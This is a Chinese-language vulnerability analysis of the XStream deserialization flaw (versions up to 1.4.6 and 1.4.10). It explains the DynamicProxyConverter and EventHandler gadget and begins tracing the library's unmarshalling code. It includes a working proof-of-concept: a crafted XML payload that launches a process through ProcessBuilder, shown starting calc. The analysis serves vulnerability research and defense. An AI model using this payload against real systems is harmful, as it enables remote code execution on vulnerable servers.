 #### <a class="reference-link" name="%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4"></a>影响范围

1.4.x&lt;=1.4.6或1.4.10

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B"></a>漏洞简介

XStream序列化和反序列化的核心是通过`Converter`转换器来将XML和对象之间进行相互的转换。

XStream反序列化漏洞的存在是因为XStream支持一个名为`DynamicProxyConverter`的转换器，该转换器可以将XML中`dynamic-proxy`标签内容转换成动态代理类对象，而当程序调用了`dynamic-proxy`标签内的`interface`标签指向的接口类声明的方法时，就会通过动态代理机制代理访问`dynamic-proxy`标签内`handler`标签指定的类方法；利用这个机制，攻击者可以构造恶意的XML内容，即`dynamic-proxy`标签内的`handler`标签指向如`EventHandler`类这种可实现任意函数反射调用的恶意类、`interface`标签指向目标程序必然会调用的接口类方法；最后当攻击者从外部输入该恶意XML内容后即可触发反序列化漏洞、达到任意代码执行的目的。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

```
public static void main(String[] args) `{`

        XStream xStream = new XStream();

        String xml =
                "&lt;sorted-set&gt;\n" +
                        "    &lt;string&gt;foo&lt;/string&gt;\n" +
                        "    &lt;dynamic-proxy&gt;\n" +
                        "        &lt;interface&gt;java.lang.Comparable&lt;/interface&gt;\n" +
                        "        &lt;handler class=\"java.beans.EventHandler\"&gt;\n" +
                        "            &lt;target class=\"java.lang.ProcessBuilder\"&gt;\n" +
                        "                &lt;command&gt;\n" +
                        "                    &lt;string&gt;cmd&lt;/string&gt;\n" +
                        "                    &lt;string&gt;/C&lt;/string&gt;\n" +
                        "                    &lt;string&gt;calc&lt;/string&gt;\n" +
                        "                &lt;/command&gt;\n" +
                        "            &lt;/target&gt;\n" +
                        "            &lt;action&gt;start&lt;/action&gt;\n" +
                        "        &lt;/handler&gt;\n" +
                        "    &lt;/dynamic-proxy&gt;\n" +
                        "&lt;/sorted-set&gt;";

       xStream.fromXML(xml);

    `}`
```

一路跟踪下来代码走到`com.thoughtworks.xstream.core.TreeUnmarshaller#start`

```
public Object start(final DataHolder dataHolder) `{`
        this.dataHolder = dataHolder;
        //通过mapper获取对应节点的Class对象
        final Class&lt;?&gt; type = HierarchicalStreams.readClassType(reader, mapper);
        //Converter根据Class的类型转化成java对象
        final Object result = convertAnother(null, type);
        for (final Runnable runnable : validationList) `{`
            runnable.run();
        `}`
        return result;
    `}`
```
